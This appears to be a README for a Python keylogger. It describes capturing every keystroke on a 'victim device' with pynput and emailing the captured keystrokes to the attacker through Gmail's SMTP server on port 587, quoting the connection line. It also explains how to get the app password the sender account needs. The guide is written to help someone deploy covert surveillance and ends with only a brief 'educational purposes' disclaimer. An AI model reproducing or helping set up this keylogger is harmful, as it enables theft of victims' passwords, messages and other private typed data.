 I have written a python program to track the key strokes which the user is typing.
I used pynput python library to identify the key strokes.
Then I used to send those keystrokes in an email account.
I used smtplib python module to send mail this task.
I used google mail services, thats why iused port no 587 to the line "s = smtplib.SMTP('smtp.gmail.com',587)"
You are going to be needed two gmail accounts, one account will login to the victim device with an authenticated app password and send the key strokes to the second mail account.
In the position sender and reciver just used your gmail accounts.
To login to the device using the python, you are going to be needed the app password of the sender account.
Just search for "google app password" to and the first link from official google account on google help, will lead you on how to get the app password.
Thats all you need to do.
Caution : It is only for educational purposes. Please do not use this for any illeagal or unethical job.
